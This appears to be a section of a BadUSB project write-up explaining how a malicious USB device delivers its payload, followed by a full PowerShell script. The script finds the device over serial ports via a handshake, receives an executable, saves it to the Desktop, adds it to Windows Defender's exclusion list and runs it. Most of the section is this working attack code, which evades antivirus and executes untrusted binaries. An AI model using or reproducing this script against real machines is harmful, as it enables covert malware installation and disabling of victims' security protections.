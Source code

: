 # 5. Transferring the Payload

With the code needed to open a terminal as Administrator, all that is left is to have the host request a serial download of the payload. Accomplishing this through PowerShell is trivial, as it has full access to *.NET*. This allows for use of the `System.IO.Ports.SerialPort` class.

## 5.1. Injected PowerShell Script

Since its not possible to know before hand which COM port the BadUSB device will actually show up as, the first step is to query all of the available ports. The correct port will be identified through a (very) simple handshake. 

Once the host has opened a serial connection it'll send `0xBEEF`, and expect `0xDEAD` in return. If the device on the other end responds with anything else the connection is closed. No response are handled by setting the read timeout to 50ms.

When the correct device has been identified it will send the size of the payload as a 4 byte integer, followed by the payload itself. After the full payload has been transferred the script will store it to the desktop and add it to *Windows Defender's* exclusion list. This makes sure that it's possible to execute the payload without *Defender* interfering.

````powershell
function Read { param($serial, $count)
    $buffer = New-Object byte[] $count
    $offset = 0
    while ($offset -lt $count) {
        $read = $serial.Read($buffer, $offset, ($count - $offset))
        $offset += $read
    }
    return $buffer
}

$ports = [System.IO.Ports.SerialPort]::GetPortNames()
if ($ports.Length -gt 0) {
    foreach ($port in $ports) {
        $serial = New-Object System.IO.Ports.SerialPort($port, 115200, 'None', 8, 'One')
        $serial.ReadTimeout = 50

        $serial.Open()
        if ($serial.IsOpen) {
            [byte[]] $handshake = 0xB, 0xE, 0xE, 0xF
            $serial.Write($handshake, 0, 4)
            $answer = Read $serial 4
            if (-not (Compare-Object $answer (0xD,0xE,0xA,0xD))) {
                $readSize = Read $serial 4
                $size = [BitConverter]::ToInt32($readSize, 0)

                if ($size -gt 0) {
                    $payload = New-Object byte[] $size
                    $offset = 0
                    $payload = Read $serial $size

                    $path = Join-Path $HOME "Desktop/payload.exe"
                    [System.IO.File]::WriteAllBytes($path, $payload)
                    Add-MpPreference -ExclusionPath $path
                    & $path
                }
            }
            $serial.Close()
        }
    }
}
````
